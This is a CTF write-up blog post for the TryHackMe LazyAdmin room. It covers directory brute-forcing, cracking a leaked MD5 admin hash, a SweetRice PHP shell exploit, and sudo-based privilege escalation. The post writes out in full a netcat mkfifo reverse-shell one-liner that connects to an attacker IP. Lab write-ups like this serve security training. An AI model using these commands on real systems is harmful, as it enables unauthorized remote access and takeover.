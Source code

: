 ```yaml
---
layout: post
title: TryHackMe - LazyAdmin
date: 2023-04-23 17:24
category: ctf
author: Akymos
tags: [ctf, tryhackme]
anchor: true
---
```


<hr>
<h3>Table of Contents</h3>
<nav class="toc">
* toc
{:toc}
</nav>
<hr>
<div class="pb-1" />

## Room info
- **Name**: LazyAdmin
- **Link**: [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin){:target="_blank"}
- **Subscription**: Free
- **Difficulty**: Easy
- **Description**: Easy linux machine to practice your skills

### Questions
1. What is the user flag?
2. What is the root flag?

## Step 0 - Recon
### Nmap
``` bash
$ nmap -sC -sV 10.10.26.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 21:28 CEST
Nmap scan report for 10.10.26.136
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.88 seconds
```
Nice, port 80 is open, but nothing interesting on it, only the default Apache page.
![LazyAdmin - Apache default page](/assets/images/ctf-lazyadmin/01.png){:class="post-image"}

### Gobuster
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136 -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.26.136/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```
We have a 'strange' directory: `/content`. Let's check it out.
![LazyAdmin - /content directory](/assets/images/ctf-lazyadmin/02.png){:class="post-image"}

### Gobuster on /content
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136/content -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.26.136/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.26.136/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.26.136/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.26.136/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/js/]
```
Directory index is enabled. `/as` contains the admin panel of the website, but we don't have any credentials (YET).
The directory `/inc` contains another folder: `/inc/mysql_backup`. Inside it, we have a file called `mysql_bakup_20191129023059-1.5.1.sql`. Let's download it and check it out.
```php
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
......
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
......
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
We have found the credentials for the admin panel: `manager:42f749ade7f9e195bf475f37a44cafcb` (MD5 hash).

### John the Ripper
``` bash
$ echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt && john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
***********      (?)     
1g 0:00:00:00 DONE (2023-04-24 21:59) 100.0g/s 3379Kp/s 3379Kc/s 3379KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
So the admin account is:
- Username: `manager`
- Password: `***********`
![LazyAdmin - Admin panel](/assets/images/ctf-lazyadmin/03.png){:class="post-image"}

### Exploit
In this version of SweetRice, there is a vulnerability that allows us to use a PHP shell. We can use it to get a reverse shell.
[https://www.exploit-db.com/exploits/40700](https://www.exploit-db.com/exploits/40700){:target="_blank"}

## Question 1 - What is the user flag?
```sh
$ nc -lnvp 9001
listening on [any] 9001 ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /home/itguy/user.txt
THM{***************************}
````
The user flag is: `THM{***************************}`

## Question 2 - What is the root flag?
### Privilege escalation
```sh
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -lha /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ # We can modify the file /etc/copy.sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f" > /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f

$ sudo /usr/bin/perl /home/itguy/backup.pl
```

### Root.txt
```sh
$ nc -lnvp 9002
listening on [any] 9002 ...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{***************************}
```
The root flag is: `THM{***************************}`